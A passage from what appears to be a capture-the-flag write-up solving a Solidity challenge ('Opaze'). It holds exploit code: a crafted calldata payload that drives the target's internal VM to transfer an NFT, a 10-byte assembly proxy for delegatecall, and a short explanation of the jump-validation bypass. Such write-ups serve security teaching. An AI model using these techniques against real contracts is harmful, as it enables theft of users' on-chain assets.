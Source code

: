 ```solidity
           "answer"
       );

        bytes memory payload = bytes.concat(
           data,
           hex"00000000000000000000000000000000000000000000000000000000",
           hex"11020080",
           hex"11020000",
           hex"11020000",
           hex"1114", abi.encodePacked(address(PLAYER)),
           hex"33", hex"23b872dd000000000000000000000000769f3e5057b43b0d511065ed74df982e",
           hex"33", hex"9134da9c000000000000000000000000d2d86433d89c204bf5f2451bbc98175a",
           hex"33", hex"1fc4cd6900000000000000000000000000000000000000000000000000000000",
           hex"33", hex"00000001fffffff1000000010000000100000001000000010000000100000001",
           hex"22"
        );

        (bool success,) = address(target).call{gas: 100000, value: 0x02D4}(payload);
        require(success, "Call failed2");
   }
}
```

##### Why It Works

The exploit succeeds because:
1. The proxy contract satisfies the 10-byte size limit
2. Delegate call allows executing arbitrary code
3. Memory location 0x1337 is properly initialized via the gadget
4. VM instructions in the calldata execute the NFT transfer
5. The contract's jump validation is bypassed

#### Complete Solution

```solidity
import {Script, console} from "forge-std/Script.sol";
pragma solidity ^0.8.0;

import "src/Challenge.sol";
import "src/Opaze.sol";
import "src/OpazeWhisperer.sol";

contract Proxy {
   constructor() {
       assembly {
           mstore(0, 0x5F5F5F5F335aF400414100000000000000000000000000000000000000000000)
           mstore8(8, 0x06)
           mstore8(9, 0x60)
           return(0, 10)
       }
   }
}

contract Exploit {
   OpazeWhisperer immutable target;
   address immutable PLAYER;
   address proxy;
   
   constructor(OpazeWhisperer _target, address _proxy, address player) {
       target = _target;
       proxy = _proxy;
       PLAYER = player;
   }
   
```